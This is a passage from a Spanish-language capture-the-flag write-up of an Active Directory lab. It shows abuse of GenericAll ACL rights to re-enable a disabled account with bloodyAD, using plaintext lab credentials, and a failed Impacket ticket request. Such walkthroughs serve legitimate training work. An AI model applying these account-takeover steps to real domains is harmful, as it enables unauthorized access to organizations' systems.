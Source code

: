 > El grupo `Remote Management Users` (Usuarios de Administración Remota) en **Active Directory (AD)** es un **grupo de seguridad local de dominio** que se utiliza para permitir a sus miembros el acceso remoto para realizar tareas de gestión y configuración mediante el protocolo **Windows Remote Management (WinRM)**.
{: .notice--info}


## Abusing AD ACL - `GenericAll` Rights

El grupo `Senior Devs` posee derechos `GenericAll` sobre la cuenta `adam.silver`, y el usuario `ant.edwars` es miembro de este grupo, esto nos otorga control total sobre un objeto, pudiendo modificar cualquier atributo.

Podemos aprovechar estos derechos para activar la cuenta de `adam.silver` con las credenciales de `ant.edwards`

> Las credenciales de `ant.edwards` las podemos obtener desde la base de datos de `KeePass` que abrimos anteriormente
{: .notice--warning}

![image-center](/assets/images/posts/puppy-bloodhound-4.png)
{: .align-center}

Activaremos la cuenta del usuario `adam.silver` utilizando herramientas como `bloodyAD`, donde quitamos el atributo `ACCOUNTDISABLE`

~~~ bash
bloodyAD --host DC.puppy.htb -d puppy.htb -u 'ant.edwards' -p 'Antman2025!' remove uac adam.silver -f ACCOUNTDISABLE

[-] ['ACCOUNTDISABLE'] property flags removed from adam.silver's userAccountControl
~~~

Si intentamos validar las credenciales de `adam.silver`, notaremos que no podemos autenticarnos

~~~ bash
getTGT.py puppy.htb/adam.silver:'HJKL2025!' -dc-ip 10.10.11.70
 
Impacket v0.13.0.dev0+20250109.91705.ac02e0ee - Copyright Fortra, LLC and its affiliated companies 

Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication information was invalid)
~~~
